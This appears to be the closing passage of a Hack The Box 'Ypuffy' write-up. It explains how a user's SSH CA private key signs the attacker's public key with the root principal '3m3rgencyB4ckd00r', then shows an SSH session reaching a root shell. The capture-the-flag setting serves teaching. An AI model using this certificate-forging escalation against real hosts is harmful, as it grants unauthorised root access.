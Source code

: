 [+] `-u userca` - Running command as the userca user

[+] `-s /home/userca/ca` - Using the ca private key that is the configured key to sign other keys

[+] `-I cert_anubis` - This is the name of the certification which can be anything

[+] `-n 3m3rgencyB4ckd00r` - Principal found for the user root, who we would like to SSH in as

[+] `id_rsa.pub` - The public key that was generated on our Kali box that is getting certified


Now that we have these in place, all we need to do is copy over the new certification file (in this case it will be named "id_rsa-cert.pub") to where our private and public key pairs are hosted on our Kali box. Once this is done we can then SSH as root into Ypuffy as seen below:

```sh
root@kali:~/Documents/htb/boxes/Ypuffy# ssh -i id_rsa 10.10.10.107
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy# id                                                                                                                                              
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
ypuffy# 
```

And we are root! A super unique privilege escalation that required a lot of reading and research on my part. 

Hope you enjoyed this write up! I will probably alternate between recording retired machine's on my Youtube channel and putting them up on here. I might host some videos on this blog as well! Until next time!

-Anubis
